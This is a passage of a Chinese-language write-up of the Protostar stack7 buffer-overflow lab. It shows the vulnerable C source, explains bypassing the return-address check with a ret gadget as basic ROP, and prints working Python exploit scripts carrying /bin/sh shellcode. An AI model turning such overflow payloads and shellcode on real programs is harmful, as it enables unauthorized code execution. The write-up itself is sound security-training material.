print payload + system_add + system_ret + binsh_add
```

运行结果如下：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-26 <!--标题-->
    </center>
</div>

###### 0x116 stack7

源码：

```C++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

这一题和上一题差距只是在于返回地址限制的范围变成了0xb0000000 - 0xbfffffff。如图1-27所示，查询一下该程序的内存分布发现，这个条件已经限制了之前我们使用的办法：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-27 <!--标题-->
    </center>
</div>

但是我们还是可以通过修改函数的返回地址为ret指令的地址，这样还是可以绕过该检测机制。如图1-28所示，图中展示了getpath函数的ret指令地址，以及返回地址保存的栈地址。

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-28 <!--标题-->
    </center>
</div>

那么这个方法我们在stack6中的方法一就使用过了，因此这里直接展示exp脚本：

```python
payload = "A"*80
address = "\x44\x85\x04\x08"
address += "\x94\xfc\xff\xbf"
shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print payload + address + shellcode
```

结果如图1-29所示：

<div><!--块级封装-->
    <center><!--将图片和文字居中-->
    
    <br>  <!--换行-->
    Picture 1-29 <!--标题-->
    </center>
</div>

上述的这个办法就是多了一个ret指令，那么我们就可以考虑能不能利用其他代码片段的ret指令呢？我们将该函数返回地址改为其他代码片段的ret指令地址，然后该ret指令的返回地址改为shellcode的地址不就同样可以实现吗？

因为目标程序很小，因此可以直接通过objdump寻找另一个ret指令。

上述说的方法其实就是ROP，但这里的ROP很简化，我们只需要利用其他地址的ret指令即可完成我们的目标，而真实的ROP构造甚至会需要利用已存在的指令来配合实现shellcode，这就会经历很多次跳转来执行位于不同地址的指令。

为了简化，我们仍然把代码存在栈里，然后两次ret即可。

通过objdump查看该程序的反汇编代码可以找到很多ret指令，随便用一个即可。

脚本代码如下所示，这里的区别只是将第一个address的地址赋值成存在于其他地址的ret指令，其他的都不变。

```python
payload = "A"*80
address = "\xf9\x85\x04\x08"
address += "\x94\xfc\xff\xbf"
shellcode =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print payload + address + shellcode
```
